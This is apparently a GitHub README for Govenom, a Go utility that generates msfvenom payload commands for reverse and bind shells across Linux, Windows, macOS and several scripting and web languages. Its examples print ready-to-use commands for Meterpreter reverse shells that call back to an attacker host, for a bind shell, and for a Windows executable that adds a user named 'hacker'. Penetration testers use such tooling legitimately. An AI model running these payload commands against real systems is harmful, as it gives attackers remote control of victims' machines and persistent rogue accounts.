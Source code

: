 # Govenom
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) 

Generate MSFVenom shells in command line :)

## To-do List
- [x] v0.1 Generate MSFVenom shells in command line.
- [ ] v0.2 Support Bind Shell and Reverse Shell.
- [ ] v0.3 Supported Command execution and generate a Litener.
- [ ] v0.4 Provide WebUI or GUI.

## Usage
This panel appears when typing `./Govenom -h` :
```
USAGE:
   Govenom [global options] command [command options] [arguments...]

COMMANDS:
   linux    Generate Linux Meterpreter reverse/bind shell x86 multi stage :)
   windows  Generate Windows Meterpreter muti shells :)
   macos    Generate MacOS Meterpreter reverse/bind shells :)
   bash     Generate a Bash reverse shell
   python   Generate a Python reverse shell
   perl     Generate a Perl reverse shell
   asp      Generate a ASP Meterpreter shell
   jsp      Generate a Jsp reverse shell
   war      Generate a War reverse shell
   php      Generate a PHP reverse shells
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help
```

## Examples
It is possible to provide the attacker IP address and listening port with the flags `-lhost` and `-port`.
```
# ./Govenom bash -lhost 1.2.3.4 -port 4444                                                                                                                                                          
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

msfvenom -p cmd/unix/reverse_bash LHOST=1.2.3.4 LPORT=4444 -f raw > shell.sh 
```
```
# ./Govenom  windows
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

 #1   Windows Meterpreter reverse shell: msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #2   Windows Meterpreter http reverse shell: msfvenom -p windows/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=4444 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe 
 #3   Windows Meterpreter bind shell: msfvenom -p windows/meterpreter/bind_tcp RHOST= 192.168.1.1 LPORT=4444 -f exe > shell.exe 
 #4   Windows CMD Multi Stage: msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #5   Windows add user: msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Thanks
* [goshell](https://github.com/eze-kiel/goshell) - Generate reverse shells in command line with Go ! 
